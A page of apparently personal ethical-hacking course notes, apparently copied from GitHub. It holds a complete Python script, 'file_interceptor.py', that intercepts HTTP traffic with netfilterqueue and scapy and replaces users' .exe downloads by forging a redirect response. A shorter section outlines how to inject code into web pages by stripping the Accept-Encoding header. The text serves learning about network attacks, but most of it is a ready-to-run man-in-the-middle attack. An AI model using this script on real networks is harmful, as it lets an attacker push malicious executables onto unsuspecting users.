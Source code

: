 ## 09 - File Interceptor

- modifying HTTP requests

### Code 

```
#!/usr/bin/env python

# file_interceptor.py

import netfilterqueue
import scapy.all as scapy 

ack_list = []

def set_load(original_packet, load):
	original_packet[scapy.Raw].load = load
	del original_packet[scapy.IP].len
	del original_packet[scapy.IP].chksum
	del original_packet[scapy.TCP].chksum
	return original_packet

def process_packet(packet):
	scapy_packet = scapy.IP(packet.get_payload())
	if scapy_packet.haslayer(scapy.Raw):
		if scapy_packet[scapy.TCP].dport == 80:
			if ".exe" in scapy_packet[scapy.Raw].load:
				ack_list.append(scapy_packet[scapy.TCP].ack)
		elif scapy_packet[scapy.TCP].sport == 80:
			if scapy_packet[scapy.TCP].seq in ack_list:
				ack_list.remove(scapy_packet[scapy.TCP].seq)
				print("[+] Replacing file")
				modified_packet = set_load(scapy_packet, "HTTP/1.1 301 Moved Permanently\nLocation: https://www.rarlab.com/rar/wrar56b1.exe")
				packet.set_payload(str(modified_packet))
	packet.accept()

queue = netfilterqueue.NetfilterQueue()
queue.bind(0, process_packet)
queue.run()
```

---

## 10 - Code Injector

- HTML response is encoded in gzip
- Remove the *Accept Encoding* header in the request to get response in plain HTML
- The header can be replaced using Regex 
- Injected code may not work in all websites due to the *Content Length* header. Website does not load the entire HTML code due to change in the content length by the injected code. 

